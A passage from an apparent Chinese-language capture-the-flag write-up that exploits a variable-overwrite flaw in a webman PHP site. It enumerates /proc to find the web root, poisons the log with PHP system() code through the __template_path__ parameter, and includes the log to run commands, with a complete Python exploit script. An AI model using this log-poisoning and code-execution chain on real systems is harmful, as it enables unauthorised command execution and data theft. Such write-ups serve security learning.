{{< figure src="/ox-hugo/_20241206_163918screenshot.png" >}}

基于这个变量覆盖漏洞，我们可以通过以下步骤来执行命令：

1.  枚举 /proc/{i}/cmdline 来获取网站根目录的绝对路径
2.  用 PHP 代码覆盖 `__template_path__` 变量，通过触发异常将代码写入 webman 的日志文件
3.  由于 webman 的日志文件命名相对固定，可以再次通过变量覆盖来包含刚刚写入代码的日志，以此执行代码

将这些步骤通过脚本实现：

```python
from datetime import datetime
import json
import httpx

BASEURL = "https://55b74c3a-f741-41d3-803e-e327476e7f7b.challenge.ctf.show"
URL = f"{BASEURL}/index/testJson"

def get_webroot() -> str:
    with httpx.Client(verify=False) as cli:
        for i in range(1, 100):
            data = json.dumps(
                {"name": "guest", "__template_path__": f"/proc/{i}/cmdline"}
            )
            resp = cli.get(URL, params={"data": data})
            if "start.php" in resp.text:
                return resp.text.split("start_file=")[1][:-11]


def write_payload(webroot: str, cmd: str):
    with httpx.Client(verify=False) as cli:
        data = json.dumps(
            {
                "name": "guest",
                "__template_path__": f"<?php system('{cmd}');?>",
            }
        )
        resp = cli.get(URL, params={"data": data})
        # print(resp.text)

def include_payload(webroot: str):
    with httpx.Client(verify=False) as cli:
        logfile = datetime.now().strftime(r"webman-%Y-%m-%d.log")
        data = json.dumps(
            {"name": "guest", "__template_path__": f"{webroot}/runtime/logs/{logfile}"}
        )
        resp = cli.get(URL, params={"data": data})
        # print(resp.text)

if __name__ == "__main__":
    webroot = get_webroot()

    cmd = "cat /s000ecretF1ag999.txt"
    write_payload(webroot, f"{cmd} > {webroot}/public/stdout.txt")
    include_payload(webroot)

    with httpx.Client(verify=False) as cli:
        cmd_stdout = cli.get(f"{BASEURL}/stdout.txt").text
        print(cmd_stdout)
```
